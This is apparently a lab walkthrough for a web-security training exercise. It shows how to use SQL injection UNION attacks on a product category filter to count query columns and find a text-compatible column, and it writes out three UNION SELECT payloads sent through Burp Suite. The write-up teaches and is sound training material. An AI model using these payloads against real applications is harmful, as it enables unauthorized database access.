

# SQL injection UNION attack, finding a column containing text

- The lab contains a SQL injection vulnerability in the product category filter.

## To Solve:
- Determine the number of columns in the SQL query.
- Identify a column that is compatible with the string data type.
- Perform a SQLi UNION attack that returns an additional row containing the value provided.

## Steps:
1. Use Burp Suite to intercept and modify the request.
2. Use the following payload to determine the number of columns in the SQL query:
    ```
    '+UNION+select+null-- 
    ```
3. Increase the number of `null` until the application responds with a successful response.
4. Use the following payload to identify a column that is compatible with the string data type:
    ```
    '+UNION+SELECT+'a',null,null-- 
    ```
5. Use the following payload to perform a SQLi UNION attack that returns an additional row containing the value provided:
    ```
    '+UNION+SELECT+null,'a',null-- 
    ```
6. Now, replace the `null` which doesnot provided the `internal server error` with the string data provided in the website itself, that says something like `Retrieve 'eRhY'`
7. The application responds with a successful response, indicating that the attack was successful.
8. The lab is solved and the column containing text is identified.


## image:
